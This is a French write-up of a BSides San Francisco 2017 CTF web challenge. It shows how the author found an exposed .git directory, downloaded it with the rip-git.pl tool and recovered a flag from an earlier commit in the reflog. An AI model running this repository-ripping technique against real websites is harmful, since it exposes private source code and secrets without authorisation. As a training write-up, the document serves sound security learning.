

Challenge de web présenté lors du CTF online BSides San Francisco 2017.

<h2>Analyse du challenge</h2>
On a un lien qui me mène à ce site :

En regardant ces outils, on peut se dire que le html ne nous apportera rien ni notepad++, cherchons du côté de git...

En mettant dans l'url <strong>/.git </strong>, je tombe sur une erreur du type :"Forbidden". et là on se dit qu'on est sur la bonne voie.

Tapons <strong>.git/HEAD</strong>
Bingo, on a :
<pre>ref: refs/heads/master</pre>
<h2>Répertoire GIT</h2>
Nous allons utiliser ce script pour récupérer le répertoire GIT :

<a href="https://github.com/kost/dvcs-ripper/blob/master/rip-git.pl">https://github.com/kost/dvcs-ripper/blob/master/rip-git.pl</a>

Puis nous faisons ces commandes :
<pre>mkdir foo
cd foo
./rip-git.pl -v -u http://theyear2000.ctf.bsidessf.net/.git/</pre>
A partir des logs ( http://theyear2000.ctf.bsidessf.net/<strong>.git/logs/HEAD</strong> )

On a ces commits :
<pre>0000000000000000000000000000000000000000 e039a6684f53e818926d3f62efd25217b25fc97e Mark Zuckerberg &lt;thezuck@therealzuck.zuck&gt; 1486853661 +0000	commit (initial): First commit on my website
e039a6684f53e818926d3f62efd25217b25fc97e 9e9ce4da43d0d2dc10ece64f75ec9cab1f4e5de0 Mark Zuckerberg &lt;thezuck@therealzuck.zuck&gt; 1486853667 +0000	commit: Fixed a spelling error
9e9ce4da43d0d2dc10ece64f75ec9cab1f4e5de0 e039a6684f53e818926d3f62efd25217b25fc97e Mark Zuckerberg &lt;thezuck@therealzuck.zuck&gt; 1486853668 +0000	reset: moving to HEAD~1
e039a6684f53e818926d3f62efd25217b25fc97e 4eec6b9c6e464c35fff1efb8444dd0ac1ae67b30 Mark Zuckerberg &lt;thezuck@therealzuck.zuck&gt; 1486853672 +0000	commit: Wooops, didn't want to commit that. Rebased.</pre>
C'est la deuxième et la dernière qui nous intéressent le plus puisqu'il y a une "error" et le message "Wooops...".
<h2>Récupération du flag</h2>
Commençons par le premier commit intéressant :
<pre><strong>git checkout 9e9ce4da43d0d2dc10ece64f75ec9cab1f4e5de0</strong></pre>
Bingo, le flag est dans le fichier index :

<strong>FLAG:what_is_HEAD_may_never_die</strong>

(En regardant dans le deuxième commit, il n'y avait rien c'était pour nous envoyer vers ce commit et tomber sur le message "Wooops")